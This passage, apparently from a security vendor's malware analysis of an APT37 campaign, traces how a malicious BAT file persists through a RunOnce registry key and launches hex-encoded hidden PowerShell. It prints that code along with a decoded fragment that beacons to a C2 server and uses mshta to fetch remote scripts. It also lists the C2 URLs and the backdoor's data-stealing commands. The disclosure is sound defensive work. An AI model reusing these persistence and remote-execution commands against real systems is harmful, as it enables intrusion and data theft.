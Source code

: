 Registry path: HKCU\ Software\Microsoft\Windows\CurrentVersion\RunOnce
Value name: BackupUserProfiles
Value: C:\Windows\SysWOW64\cmd.exe /c %appdata%\Microsoft\Protect\UserProfileSafeBackup.bat

After registering to the above registry, a PowerShell command in hexadecimal format inside the BAT file is executed.
copy %~f0 "%appdata%\Microsoft\Protect\UserProfileSafeBackup.bat"
REG ADD HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce /v BackupUserProfiles /t REG_SZ /f /d "C:\Windows\SysWOW64\cmd.exe /c %appdata%\Microsoft\Protect\UserProfileSafeBackup.bat"
start /min C:\Windows\SysWOW64\cmd.exe /c powershell -windowstyle hidden -command 
"$m6drsidu ="$jWHmcU="""53746172742D536C656570202D<omitted>""";$nj4KKFFRe="""""";for($xlEKy9tdBWJ=0;$xlEKy9tdBWJ -le $jWHmcU.Length-2;$xlEKy9tdBWJ=$xlEKy9tdBWJ+2){$dYaD=$jWHmcU[$xlEKy9tdBWJ]+$jWHmcU[$xlEKy9tdBWJ+1];$nj4KKFFRe= $nj4KKFFRe+[char]([convert]::toint16($dYaD,16));};
Invoke-Command -ScriptBlock ([Scriptblock]::Create($nj4KKFFRe));";
Invoke-Command -ScriptBlock ([Scriptblock]::Create($m6drsidu));"
When the PowerShell command is executed, a Run key registration is carried out alongside the execution of additional scripts utilizing mshta. Furthermore, registry registrations can be performed through commands from the threat actor. The following is a portion of the PowerShell command represented in hexadecimal format within the code of the BAT file.
Start-Sleep -Seconds 67;
$nvSklUbaQ = 1024 * 1024;
$yixgsFVy = $env:COMPUTERNAME + '-' + $env:USERNAME+'-SH';
$aWw = 'hxxp://75.119.136[.]207/config/bases/config.php' + '?U=' + $yixgsFVy;
$bLmoifqHwJxhE = $env:TEMP + '/KsK';
if (!(Test-Path $bLmoifqHwJxhE)) { New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\RunOnce" -Name Olm -Value 'c:\windows\system32\cmd.exe /c PowerShell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass ping -n 1 -w 311714 2.2.2.2 || mshta hxxp://bian0151.cafe24[.]com/admin/board/1.html' -PropertyType String -Force;}
The confirmed C2 and malicious URLs are as follows:

hxxp://75.119.136[.]207/config/bases/config.php?U=[COMPUTERNAME]-[USERNAME]-SH // Receives commands from the threat actor
hxxp://75.119.136.207/config/bases/config.php?R=[‘EOF’ encoded in base64] // Transmits command execution results
hxxp://bian0151.cafe24[.]com/admin/board/1.html // Downloads additional script codes

The additional script codes (hxxp://bian0151.cafe24.com/admin/board/1.html) executed through mshta contain a PowerShell command obfuscated in Base64 as shown below. This command performs functions similar to those previously disclosed in Table 1 of the post <RedEyes Group Wiretapping Individuals (APT37)> [3].

Figure 5. Malicious script found at hxxp://bian0151.cafe24.com/admin/board/1.html
The decoded PowerShell command receives and processes commands from the threat actor at hxxp://75.119.136[.]207/config/bases/config.php?U=[COMPUTERNAME]-[USERNAME]-SH. Figure 6 shows a portion of the decoded PowerShell command.

Figure 6. Decoded PowerShell command
The commands and features that can be performed are as follows.
CommandFeaturepcinfoCollects PC informationdriveCollects drive informationclipboardCollects clipboard contentsvcCollects service informationprocessCollects information on running processesfileinfoCollects the names, sizes, last used dates, and complete paths for the subfiles in the received pathstartExecutes received command through cmdpluginDownloads and executes additional files through PowerShelldownDownloads additional files in the received pathupUploads files from the received pathregeditAdds to the registrycompressCompresses filesTable 1. Commands and features that can be performed
It is suspected that the attacker is continuously modifying the script code, as the commands listed in Table 1 differ from those previously identified. Therefore, in addition to the functionalities confirmed so far, various other malicious activities may also be performed.
Aside from the LNK file, the compressed files ‘KB_20230531.rar’, ‘attachment.rar’, and ‘hanacard_20230610.rar’ that were identified alongside ‘REPORT.ZIP’ in Figure 1, also contain the previously identified malicious CHM file. Similar to the LNK file described earlier, this CHM file is malware that utilizes mshta to execute additional scripts located at specific URLs.
